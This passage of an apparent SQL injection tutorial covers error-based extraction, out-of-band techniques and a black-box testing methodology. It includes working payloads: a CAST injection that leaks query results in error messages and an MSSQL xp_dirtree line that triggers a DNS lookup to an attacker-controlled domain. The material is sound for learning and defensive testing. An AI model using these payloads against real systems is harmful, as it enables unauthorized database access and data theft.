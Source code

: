    - Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker.
   - For example, consider the following error message, which occurs after injecting a single quote into an id parameter:
     `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
   - so what if we force the DB to exfiltrate data throw these error message!
   - It will turn a Blind sqli into a visible one
   - just think what if we inject these payload
     `';CAST((SELECT example_column FROM example_table) AS int)`
   - `CAST()` is a function to change data type
   - the select statement first excuted then it changed from string to intger which is impossible so it raise an error with the output of the query.
     `ERROR: invalid input syntax for type integer: "Example data"`

### 3- Out Of Band

- it's a technique that used if non of the other techniques success and it used an out of band network connection to a system we control.
- Not Common: depends on certain feature allowed by DB.
- we can use many protocols like `DNS` and `HTTP`
- techniqually it's a type that can be used with `Boolean Based` as a sub type but some books put it in a seperate category
- many tools can used in certain attack like `burp collaborator` or `interactsh`
- EX:
  - `';exec master..xp_dirtree '//controleddomain.net/a'--`
  - these payload use `xp_dirtree` procedure in `mssql` to make lookup of these domain.
  - if we resieve the request in our domain the condition is true if not the condition is false

---

## How To Find SQL Injection

ok we after we take a small breif about sql injection and it's types how could we find it.

In fact the methodology to find SQL injection differs from one person to another and it built by exprience and other's methodolgy.

### Black Box

1. Map The Application:
   - find subdomains
   - directory enumeration
   - discover the application with the proxy on to make a site map
   - enter values to input fields in the application
   - understand the functions in the application and it'st logic
   - list all input vectors
2. fuzzing the application
   - submit sql specific characters like `(',",or,and,#,--)` an observe if there is errors or abnormal behavior
   - submit boolean conditions `(OR 1=1,OR 1=2,AND 1=1,AND 1=2)`
   - submit time delay payloads `NOTE: try payloads for every type of DB unless we know the type`
   - submit Out-of-band application security testing `(OAST)` payloads
